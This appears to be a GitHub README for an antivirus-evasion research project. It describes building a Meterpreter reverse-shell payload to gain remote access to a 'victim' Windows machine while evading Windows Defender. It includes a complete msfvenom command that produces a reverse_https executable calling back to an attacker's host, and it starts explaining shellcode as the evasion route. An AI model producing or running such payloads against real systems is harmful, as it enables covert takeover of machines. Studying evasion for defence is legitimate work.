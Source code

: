 # Windows Security Evasion, for research porpose

Malicious software that is running a reverse shell, to get full access remote to the victim machine and this software can easily bypass windows security / windows defender and others AV's, up to now (01/04/2022).


# Anti-Virus Evasion Research

I wanted to bypass the Windows Security Virus &amp; Threat Protection with some meterpreter malware that gives me access of the victim shell, so with I could get a reverse shell.

So I tried the vanilla version of the meterpreter that you can easily forge from msfvenom:

msfvenom -p windows/x64/meterpreter/reverse\_https LHOST=eth0 LPORT=4444 -f exe -o test\_exploit.exe

With that I uploaded this piece of software that is executable for windows and it contains our malware vanilla (PE32+ executable (GUI) x86-64, for MS Windows). 

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/not_clean_vanilla.png)

As you can see it has been detected as a malware in 19 differents anti-virus, but this is not too good, because even a vanilla version of a malware can bypass or can be undetected in some anti-virus softwares in the market.

But our target (Windows Defewnder) detected it as a &quot;Trojan:Win64/Meterpreter.D&quot;, so we can play around with our payload and try to bypass, this is my mission during this research.

So in msfvenom we could create a exe file to run in windows system, but also we can create a payload from that software to create a shellcode containing the malware that we want to run in the victim victim with windows defender running.

Shellcodes are pieces of machine code designed to run local or remote system shell (hence the name). They are mainly used during exploitation of software vulnerabilities - when an attacker is able to control program&#39;s execution flow he needs some universal payload to execute desired action (usually shell access). This applies to both local exploitation (e.g. for privilege escalation) and remote exploitation (for gaining RCE on a server).

But first let&#39;s use Win32 API that is built into Windows, and that is an application programmig interface written in C by Microsoft to allow access to Windows features.
